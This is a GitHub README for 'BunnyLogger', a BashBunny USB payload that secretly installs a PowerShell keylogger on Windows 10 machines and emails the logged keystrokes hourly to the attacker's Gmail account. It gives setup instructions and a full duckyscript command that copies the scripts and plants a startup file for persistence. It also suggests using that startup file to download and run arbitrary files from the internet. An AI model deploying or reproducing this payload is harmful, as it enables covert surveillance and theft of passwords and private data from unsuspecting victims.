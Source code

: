 # Bunny Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
__________                           .____                                      
\______   \__ __  ____   ____ ___.__.|    |    ____   ____   ____   ___________ 
 |    |  _/  |  \/    \ /    <   |  ||    |   /  _ \ / ___\ / ___\_/ __ \_  __ \
 |    |   \  |  /   |  \   |  \___  ||    |__(  <_> ) /_/  > /_/  >  ___/|  | \/
 |______  /____/|___|  /___|  / ____||_______ \____/\___  /\___  / \___  >__|   
        \/           \/     \/\/             \/    /_____//_____/      \/         
```

## Update:
**An New Version of This Payload Is Available [HERE](https://github.com/CosmodiumCS/BunnyKeyhook)**

## Overview:
```
BunnyLogger is a BashBunny payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=z8KD9zU50xc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 7 of *duckyscript.txt*, change 'switch1' to whatever switch you use
3. in line 7 of *duckyscript.txt*, change 'BashBunny' to the name of your BashBunny
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
